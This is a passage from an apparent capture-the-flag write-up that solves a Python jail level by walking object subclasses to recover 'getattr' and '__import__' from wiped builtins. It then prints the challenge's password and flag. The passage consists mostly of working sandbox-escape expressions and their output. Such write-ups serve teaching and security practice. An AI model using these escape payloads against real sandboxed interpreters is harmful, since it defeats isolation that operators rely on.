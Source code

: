 
```python
# Level 3 input
().__class__.__base__.__subclasses__()[137]()._module.__builtins__['getattr']
Result: <built-in function getattr>.  The correct answer was 4195770746.
```

We reached the getattr class, now we have to do the same as the previous level, but using the builtin "import" in the same way that we loaded getattr this time, since it is undefined in the wiped context:

```python
getattr :     ().__class__.__base__.__subclasses__()[137]()._module.__builtins__['getattr']

__import__ :  ().__class__.__base__.__subclasses__()[137]()._module.__builtins__['__import__']

# Target call
getattr(__import__('__main__'),'solution')


# Level 3 input
().__class__.__base__.__subclasses__()[137]()._module.__builtins__['getattr'](().__class__.__base__.__subclasses__()[137]()._module.__builtins__['__import__']('__main__'),'solution')

# Output
2192900837, correct!  The password is '5F4p7aLgQ5Nfn5YM8s68'.

```

Now we input the password and get the flag:

Level 4 - The flag!

Congratulations! The flag is utflag{LGvb7PJXG5JDwhsEW7xp}.

<p align="center">